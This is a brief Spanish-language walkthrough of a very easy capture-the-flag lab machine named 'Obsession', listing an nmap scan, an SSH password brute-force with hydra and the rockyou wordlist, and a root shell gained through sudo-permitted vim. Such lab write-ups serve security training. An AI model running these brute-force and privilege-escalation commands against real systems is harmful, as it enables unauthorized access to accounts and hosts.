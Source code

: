 Maquina: Obsession
Autor: Juan
Dificultad: Muy Facil

sudo nmap -p- --open -sS -sC -sV --min-rate 5000 -vvv -n -Pn 192.168.52.139 -oN Escaneo
Vemos el puerto 80 abierto
miramos la web https:172.17.0.2
miramos el codigo y encontramos un posible usuario

sudo hydra -l russoski -P /usr/share/wordlists/rockyou.txt.gz ssh://172.17.0.2

sudo -l
y encontramos que podemos ejecutar vim como root

sudo vim -c ':!/bin/sh'
whoami
